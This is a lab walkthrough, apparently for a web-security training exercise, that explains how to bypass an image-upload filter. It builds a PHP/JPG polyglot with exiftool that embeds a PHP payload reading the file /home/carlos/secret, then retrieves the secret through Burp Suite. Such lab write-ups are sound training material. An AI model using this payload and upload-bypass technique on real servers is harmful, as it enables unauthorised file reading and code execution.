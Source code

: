 ## Solution steps

- Open Burp Suite and set up proxy (Keep the intercept off).
- Log in to your account using the given credentials and notice the option for uploading an avatar image.
- On your system, create a file called exploit.php containing a script for fetching the contents of Carlos's secret. For example: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images.
- Start Kali Linux and install exiftool if it's not already available on your system.
- Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata.
- Write the following command in the terminal: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
- This adds your PHP payload to the image's Comment field, then saves the image with a .php extension.
- In the browser, upload the polyglot image as your avatar, then go back to your account page.
- In Burp's proxy history, find the GET /files/avatars/polyglot.php request. Use the message editor's search feature to find the START string somewhere within the binary image data in the response. Between this and the END string, you should see Carlos's secret, for example: START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END
- Submit the secret to solve the lab.
